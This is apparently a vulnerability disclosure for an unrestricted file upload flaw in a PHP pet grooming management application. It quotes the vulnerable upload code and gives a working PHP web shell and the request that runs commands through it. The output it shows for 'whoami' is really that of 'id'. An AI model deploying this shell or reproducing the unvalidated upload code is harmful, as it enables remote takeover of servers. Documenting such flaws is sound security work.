

# Proof of Concept – Unrestricted File Upload in Pet Grooming ERP
### Summary

The Pet Grooming ERP application contains an Unrestricted File Upload vulnerability in the admin/profile.php module.
An authenticated attacker can upload arbitrary files, including PHP code, instead of restricted image files. This results in Remote Code Execution (RCE) on the hosting server.

*Source Code:* [Pet Grooming Management v.1](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

**Evidence:**



### Root Cause
The application only applies client-side restrictions (accept="image/jpeg/png") and does not enforce proper server-side validation of uploaded files.
The following code demonstrates the weakness:

```php
$target_dir = "../assets/uploadImage/Profile/";
$website_logo = basename($_FILES["website_image"]["name"]);
$image = $target_dir . basename($_FILES["website_image"]["name"]);

if (move_uploaded_file($_FILES["website_image"]["tmp_name"], $image)) {
    @unlink("../assets/uploadImage/Profile/".$_POST['old_website_image']);
}
```


**❌ No server-side verification of extension, MIME type, or file content is performed.**

---

## Exploitation Proof of Concept
### Step 1 – Upload Payload

Submit the following file via the Profile Update form (website_image parameter):
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

### Step 2 – Locate File

The file is written to:
```php
/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php
```

Accessible at:

```http://<host>/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php```

### Step 3 – Remote Command Execution

Request the uploaded file with the cmd parameter:

```http://<host>/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php?cmd=whoami```


### Example Output:

```uid=33(www-data) gid=33(www-data) groups=33(www-data)```
